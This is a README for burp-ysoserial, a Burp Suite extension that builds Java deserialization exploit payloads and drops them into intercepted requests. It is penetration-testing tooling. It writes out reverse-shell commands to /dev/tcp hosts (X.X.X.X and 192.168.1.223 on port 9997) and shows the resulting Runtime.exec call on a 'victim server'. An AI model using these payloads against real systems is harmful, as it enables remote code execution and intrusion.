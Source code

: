 # burp-ysoserial - with complex command in injection support

Download the jar file here: [ysoserial.jar](https://github.com/summitt/burp-ysoserial/releases)

There are 3 ways to run this extension. 

 1. Generate a payload from the YSOSERIAL Tab. You can then copy and paste it into other tabs in burp.(Not ideal)
 1. Generate a payload from the YSOSERIAL Tab. In another tab you can select the text you want to replace and right click. You have 3 options to replace.
   1. Raw - This will replace your selected text with an unencoded version of the payload. This is raw binary/hex.
   1. B64 - This payload will replace your selected text with a base64 encoded version.
   1. URLEnc - This will replace your selected text with a URL encoded and base64 encoded payload. Ideal for web type applications
 1. You can use inline commands to replace your text with a payload that contains your command. For example you can enter text in repeater like:
 
 ```$(CC1|ping -c1 8.8.8.8)```
 
 Select the above text and right click any of the Java Serialized Payload Options and it will replace your command with a payload containing that command.
 
 The first parameter before the pipe in the above statement is the verion of the exploit. You can enter any of the following:
  - CC1 or CollectionCommons1
  - CC2 or CollectionCommons2
  - GV1 or Groovy1
  - SP1 or Spring1
  
 The second parameter is obviously the OS command you wish to run.
 
## Complex Commands (i.e. pipes and I/O redirection)
Note ysoserial in this extension has been updated to accept more complicated commands that in the original. For instance commands like the following command would fail to execute on the victim server in the original ysoserial application.
 
```echo test > /tmp/text.txt```
  or
```bash -c "echo test > /tmp/text.txt"```
 
This is because to run complex commands that pipe command into other commands in java the arguments needs to be a string Array. This version of ysoserial has been modified by using a delimter of ",," to seperate your arguments to the string array.  Here is an example of running a more complicated command using this method to get a reverse shell: 
  
 ```/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1```
 
The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like:
```Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});```

##Examples
### Example 1 - Replace selected text with a pre-generated payload
1. First Generate a payload
![Payload Generator](/Payload%20Generator.png)
2. Go to Repeater and select the text you want to replace.
3. Right Click and select a payload option.
![Payload Generator](/replace%20with%20generated.png)

### Example 2 - Use and inline command
1. In Burp Repeater replace your parameter with the following code:

```$(CC1|ping -c1 8.8.8.8)```

2. Select the above text. Right Click in repeater and select the payload type.
![Payload Generator](/inline-command.png)

### Example 3 - Complex commands 
1. In Repeater replace your parameter with the following command:

```$(CC1|/bin/bash,,-c,,bash -i >& /dev/tcp/192.168.1.223/9997 0>&1)```

2. Select it and select the payload you want to generate.
![Payload Generator](/inline%20complex%20command.png)
